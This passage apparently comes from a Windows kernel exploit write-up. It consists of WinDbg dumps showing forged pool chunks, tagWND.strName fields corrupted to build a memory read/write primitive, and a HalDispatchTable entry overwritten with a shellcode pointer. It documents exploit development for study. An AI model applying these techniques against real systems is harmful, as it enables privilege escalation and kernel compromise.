 This is the completed fake chunk:

    0: kd> db fea2d820-8
    fea2d818  1d 01 01 00 e8 00 00 08-f0 36 a3 fe 10 ca a2 fe  .........6......
    fea2d828  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d838  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d848  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d858  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d868  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
    fea2d878  00 00 00 00 00 00 00 00-00 00 00 00 0f 00 01 00  ................
    fea2d888  0f 00 00 08 00 00 00 00-00 00 00 00 00 00 00 00  ................

This is the second completed fake chunk:

    0: kd> db fea2d820-8 + 11d*8
    fea2e100  02 00 01 00 1d 01 00 08-00 00 00 00 00 00 00 00  ................
    fea2e110  0d 00 01 00 03 00 00 0c-38 26 a1 fe 80 c1 80 c1  ........8&......
    fea2e120  00 00 00 00 40 8c 47 88-00 00 00 00 00 00 c1 00  ....@.G.........
    fea2e130  00 00 00 00 00 00 00 00-00 00 00 00 18 e1 a2 fe  ................
    fea2e140  00 00 00 00 00 00 00 00-00 40 00 00 9c 88 d0 95  .........@......
    fea2e150  00 00 00 00 00 00 00 00-00 00 88 00 00 00 00 00  ................
    fea2e160  e8 3e b5 ff 06 00 00 00-00 00 00 00 80 e1 a2 fe  .>..............
    fea2e170  00 00 00 00 00 00 00 00-05 00 01 00 0d 00 00 09  ................

PrimitiveWnd tagWND.strName

    0: kd> db fea2d820 + 78 + 6c8 + 84
    fea2dfe4  02 00 00 00 04 00 00 00-fc 53 f7 83 00 00 00 00  .........S......
    fea2dff4  60 df a2 fe 17 03 10 00-00 00 00 00 00 00 00 00  `...............
    fea2e004  00 00 00 00 00 00 00 00-08 00 00 00 03 00 01 00  ................
    fea2e014  17 00 00 08 01 00 00 00-01 00 00 00 88 19 7e 01  ..............~.
    fea2e024  18 a9 00 00 17 00 01 00-03 00 00 08 fc 03 03 00  ................
    fea2e034  03 00 00 00 38 48 96 fe-40 8c 47 88 30 e0 a2 fe  ....8H..@.G.0...
    fea2e044  18 00 08 60 00 07 00 80-00 01 00 00 00 00 cf 04  ...`............
    fea2e054  00 00 00 00 00 00 00 00-60 df a2 fe 28 81 a1 fe  ........`...(...

CorruptWnd tagWND.strName

    0: kd> db fea2d820 + 78 + 6c8 + d0 + 84
    fea2e0b4  de 08 00 00 e0 08 00 00-20 d8 a2 fe 00 00 00 00  ........ .......
    fea2e0c4  30 e0 a2 fe 17 03 10 00-00 00 00 00 00 00 00 00  0...............
    fea2e0d4  00 00 00 00 00 00 00 00-08 00 00 00 03 00 01 00  ................
    fea2e0e4  17 00 00 08 01 00 00 00-01 00 00 00 90 1e 7e 01  ..............~.
    fea2e0f4  18 a9 00 00 03 00 01 00-03 00 00 08 02 00 01 00  ................
    fea2e104  1d 01 00 08 00 00 00 00-00 00 00 00 0d 00 01 00  ................
    fea2e114  03 00 00 0c 38 26 a1 fe-80 c1 80 c1 00 00 00 00  ....8&..........
    fea2e124  40 8c 47 88 00 00 00 00-00 00 c1 00 00 00 00 00  @.G.............

The shellcode pointer replaced:

    0: kd> dds nt!HalDispatchTable
    83f753f8  00000004
    83f753fc  013711c0
    83f75400  83e3c1b4 hal!HalpSetSystemInformation
    83f75404  840fe71f nt!xHalQueryBusSlots
    83f75408  00000000
